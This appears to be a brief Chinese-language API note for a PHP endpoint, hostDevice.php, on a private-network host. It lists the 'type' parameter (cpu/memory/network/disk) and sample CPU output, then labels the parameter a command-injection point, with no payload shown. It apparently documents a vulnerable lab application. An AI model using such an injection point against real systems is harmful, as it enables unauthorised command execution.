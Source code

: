###接口描述
_**./php/checking**_  
hostDevice.php -- 设备信息   
接口地址：`http://192.168.157.128/php/checking/hostDevice.php?type=cpu`   
接口参数：`type = cpu/memory/network/disk`  
返回信息：`(表格类型)CPU核心CPU型号CPU频率 2 AMD Ryzen 5 2500U with Radeon Vega Mobile Gfx 2000.000 GHz`  
命令注入：

